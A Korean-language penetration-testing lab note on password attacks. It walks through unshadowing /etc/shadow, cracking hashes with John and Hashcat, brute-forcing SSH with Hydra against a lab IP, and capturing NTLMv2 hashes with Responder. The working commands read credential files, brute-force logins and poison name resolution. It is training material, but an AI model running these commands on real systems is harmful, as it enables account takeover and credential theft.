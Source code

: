 ### Goal

- 시스템·파일에서 해시 추출
    
- 해시 크랙(John, Hashcat)
    
- 온라인 로그인 공격(Hydra)
    
- LLMNR/NBT-NS Poisoning(Responder)
    

---

### 주요 도구 & 해석

1. **John the Ripper**
    
    `sudo unshadow /etc/passwd /etc/shadow > hashes.txt   john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
    
    - **해석**:
        
        - `unshadow`로 `/etc/passwd`+`/etc/shadow` 합쳐 해시 리스트 생성
            
        - `john`에 단어사전 지정해 크랙 시도
            
2. **Hashcat**
    
    `hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`  
    
    - **해석**:
        
        - `-m1800` : SHA-512 Crypt(Unix) 모드
            
        - `-a0` : 스트레이트(사전) 공격
            
3. **Hydra (온라인 로그인)**
    
    `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.101 ssh`  
    
    - **해석**:
        
        - `-l admin` : 사용자(admin) 고정
            
        - `-P` : 패스워드 리스트
            
        - 대상 SSH 로그인 브루트포스
            
4. **Responder (LLMNR/NBT-NS Poisoning)**
    
    `sudo responder -I eth0 -wrf`  
    
    - **해석**:
        
        - `-I eth0` : 공격 인터페이스
            
        - `-w` : WPAD 응답
            
        - `-r` : LLMNR 응답
            
        - `-f` : NBT-NS 응답 → 해시·NTLMv2 크레덴셜 캡처
            

---

### Lab Exercise 실습

1. **로컬 시스템 해시 추출 & 크랙**
    
    bash
    
    Copy
    
    `sudo unshadow /etc/passwd /etc/shadow > hashes.txt   john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt   john --show hashes.txt`  
    
    - **해석**: 추출한 해시를 John으로 크랙 후, `--show`로 크랙된 비밀번호 확인
        
2. **Hashcat을 이용한 GPU 크랙**
    
    bash
    
    Copy
    
    `hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --status`  
    
    - **해석**: GPU 가속 크랙, `--status`로 진행률 모니터링
        
3. **SSH 로그인 브루트포스**
    
    bash
    
    Copy
    
    `hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.56.101 ssh -t 4`  
    
    - **해석**: `-t4`로 동시 연결 4개, `root` 계정 로그인 크랙
        
4. **네트워크 상의 LLMNR Poisoning**
    
    bash
    
    Copy
    
    `sudo responder -I eth0 -wrf`  
    
    - **해석**: LLMNR/NBT-NS/WPAD 리퀘스트에 응답 → NTLMv2 해시 수집
        
5. **캡처된 NTLMv2 해시 크랙**
    
    bash
    
    Copy
    
    `cat /usr/share/responder/Logs/Responder-NTLMv2-Session.log   hashcat -m 5600 captured_hashes.txt /usr/share/wordlists/rockyou.txt`  
    
    - **해석**: Responder 로그에서 해시 추출 → `-m5600` NTLMv2 크랙